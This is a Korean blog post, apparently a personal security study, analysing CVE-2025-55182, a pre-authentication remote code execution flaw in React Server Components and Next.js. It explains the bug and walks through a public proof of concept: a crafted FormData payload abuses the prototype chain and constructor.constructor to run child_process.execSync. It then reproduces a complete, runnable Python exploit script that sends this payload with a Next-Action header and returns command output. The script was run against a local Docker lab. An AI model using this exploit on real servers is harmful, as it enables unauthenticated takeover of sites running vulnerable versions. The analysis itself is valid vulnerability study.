




# CVE-2025-55182 개요

-   **취약점 이름:** React Server Components Remote Code Execution
-   **CVE:** CVE-2025-55182
-   **심각도:** **CVSS 10.0 (Critical)**
-   **취약점 유형:**
    -   Insecure Deserialization (CWE-502)
    -   Pre-authentication RCE
-   **공개:** 2025-12-03

이번에는 React Server Components에서 발생한 원격 코드 실행(RCE) 취약점에 대해 알아보도록 하겠다.

## 배경지식

**React란?**

Recat는 UI를 만들기 위한 JavaScript 라이브러리이다.

\-> 쉽게 말해 웹 페이지 화면을 만드는 도구

**Next.js**

Next.js는React 기반 웹 프레임워크이다.

React만 사용할 시 아래와 같은 문제점이 발생한다.

```
React
↓
모든 코드가 브라우저에서 실행
↓
SEO 문제
↓
초기 로딩 느림
```

그래서 Next.js 역할은 React + 서버 기능 이라고 보면 된다.

## 공격은 어떻게 이루어질까?

[https://github.com/msanft/CVE-2025-55182/tree/main](https://github.com/msanft/CVE-2025-55182/tree/main)

 [GitHub - msanft/CVE-2025-55182: Explanation and full RCE PoC for CVE-2025-55182

Explanation and full RCE PoC for CVE-2025-55182. Contribute to msanft/CVE-2025-55182 development by creating an account on GitHub.

github.com](https://github.com/msanft/CVE-2025-55182/tree/main)

해당 취약점의 공개된 PoC를 통해서 공격이 어떻게 이루어지고 어떤 취약점이 있는지 알아보도록 하겠다.

### 1\. Server Action 트리거

```
headers: {
  'Next-Action': 'x',  // Server Action 식별자
  ...formData.getHeaders(),
}
```

Next.js는 Next-Action 헤더를 감지하면 Sever Action 요청으로 인식하고 이를 처리하기 위해서 HTTP Body(FormData)를 파싱(역직렬화)한다. 해당 로직은 프레임워크 내부에서 자동으로 일어나므로 개발자가 별도로 코드를 작성하지 않더라도 공격 포인트가 노출된다.

### 2\. 악의적인 payload 구성

```
const craftedChunk = {
  then: "$1:__proto__:then", // 프로토타입 체인 조작
  status: "resolved_model",
  reason: -1,
  value: '{"then": "$B0"}',
  _response: {
    _prefix: `var res = process.mainModule.require('child_process').execSync('${EXECUTABLE}',{'timeout':5000}).toString().trim(); throw Object.assign(new Error('NEXT_REDIRECT'), {digest:\`$\${res}\`});`,
    // If you don't need the command output, you can use this line instead:
    // _prefix: `process.mainModule.require('child_process').execSync('${EXECUTABLE}');`,
    _formData: {
      get: "$1:constructor:constructor",
    },
  },
};

const formData = new FormData();
formData.append("0", JSON.stringify(craftedChunk));
formData.append("1", '"$@0"');
```

위 코드는 PoC의 일부분이다.

**1\. craftedChunk 객체**

먼저 이 코드에서 공격자가 만드는 데이터는 아래와 같다.

```
const craftedChunk = {
  then: "$1:__proto__:then",
  status: "resolved_model",
  reason: -1,
  value: '{"then": "$B0"}',
  _response: {
    _prefix: `var res = process.mainModule.require('child_process').execSync('${EXECUTABLE}',{'timeout':5000}).toString().trim(); throw Object.assign(new Error('NEXT_REDIRECT'), {digest:\`$\${res}\`});`,
    _formData: {
      get: "$1:constructor:constructor",
    },
  },
};
```

즉, 서버로 보낼 JSON 객체를 직접 만들어 놓은 것이다.

**2\. then필드**

```
then: "$1:__proto__:then"
```

해당 문자열은 일반 문자열이 아니라 특수한 참조 문자열이다.

```
chunk 1
  ↓
__proto__
  ↓
then
```

즉, 객체의 prototype 체인에 접근하도록 유도하는 것이다. 결과적으로 서버에서 해당 객체를 처리할 때

-   object.\_\_proto\_\_.then

위와 같은 동작을 유발할 수 있다.

**3\. \_response객체**

```
_response: { ... }
```

해당 부분이 서버가 내부적으로 사용하는 Respones 객체를 위조한 부분이다. 해당 부분에는 두 가지 중요한 필드가 있다.

\_prefix와 \_fromData이다.

**4\. \_prefix**

```
_prefix: `var res = process.mainModule.require('child_process')
.execSync('${EXECUTABLE}',{'timeout':5000})
.toString().trim();
throw Object.assign(new Error('NEXT_REDIRECT'), {digest:\`$\${res}\`});`
```

-   .execSync('${EXECUTABLE}') - 해당 부분이 명령어를 실행하는 부분이다.
-   .toString().trim() - 명령 결과를 문자열로 만든다.

```
throw Object.assign(new Error('NEXT_REDIRECT'), {
  digest: `${res}`
});
```

마지막으로 위 코드로 응답으로 명령 결과를 유출시킬 수 있다.

**5\. \_formData**

```
_formData: {
  get: "$1:constructor:constructor",
}
```

-   $1 : constructor : constructor -> constructor.constructor는 사실상 JavaScript에서 Function이다.

즉, 문자열 → 실행 가능한 함수로 만들 수 있다. 때문에 공격자가 만든 \_prefix 코드가 실행 가능해진다.

**6\. FormData 생성**

```
const formData = new FormData();
formData.append("0", JSON.stringify(craftedChunk));
formData.append("1", '"$@0"');
```

서버로 전송되는 데이터는 대략 이런 구조이다.

```
0 = craftedChunk
1 = "$@0"
```

"$@0"는 chunk reference로 @0 -> chsunk 0 참조한다는 뜻이고 서버는 결국 craftedChunk 객체를 처리하게 된다.

**전체적인 흐름**

```
1️⃣ craftedChunk 객체 생성
2️⃣ FormData에 넣음
3️⃣ 서버로 전송
4️⃣ 서버가 JSON을 객체로 변환
5️⃣ constructor.constructor 실행 가능
6️⃣ _prefix 코드 실행
7️⃣ child_process.execSync 실행
8️⃣ 시스템 명령 실행
```



## PoC코드 작성 및 실습

[https://github.com/msanft/CVE-2025-55182](https://github.com/msanft/CVE-2025-55182)
(https://github.com/msanft/CVE-2025-55182)

해당 PoC에서 공개되어있는 서버를 도커로 올려서 환경을 구성하였다.



poc는 아래 poc를 사용하였다.

```
# /// script
# dependencies = ["requests"]
# ///
import requests
import sys
import json

BASE_URL = sys.argv[1] if len(sys.argv) > 1 else "http://localhost:3000"
EXECUTABLE = sys.argv[2] if len(sys.argv) > 2 else "id"

crafted_chunk = {
    "then": "$1:__proto__:then",
    "status": "resolved_model",
    "reason": -1,
    "value": '{"then": "$B0"}',
    "_response": {
        "_prefix": f"var res = process.mainModule.require('child_process').execSync('{EXECUTABLE}',{{'timeout':5000}}).toString().trim(); throw Object.assign(new Error('NEXT_REDIRECT'), {{digest:`${{res}}`}});",
        # If you don't need the command output, you can use this line instead:
        # "_prefix": f"process.mainModule.require('child_process').execSync('{EXECUTABLE}');",
        "_formData": {
            "get": "$1:constructor:constructor",
        },
    },
}

files = {
    "0": (None, json.dumps(crafted_chunk)),
    "1": (None, '"$@0"'),
}

headers = {"Next-Action": "x"}
res = requests.post(BASE_URL, files=files, headers=headers, timeout=10)
print(res.status_code)
print(res.text)
```



정상적으로 PoC 실행이 이루어진걸 알 수 있다.

#### 참고자료

- (https://bandal.dev/blog/react-2-shell#2-payload-)
- (https://bandal.dev/blog/react-2-shell#2-payload-)
- (https://react.dev/blog/2025/12/03/critical-security-vulnerability-in-react-server-components)
- (https://react.dev/blog/2025/12/03/critical-security-vulnerability-in-react-server-components)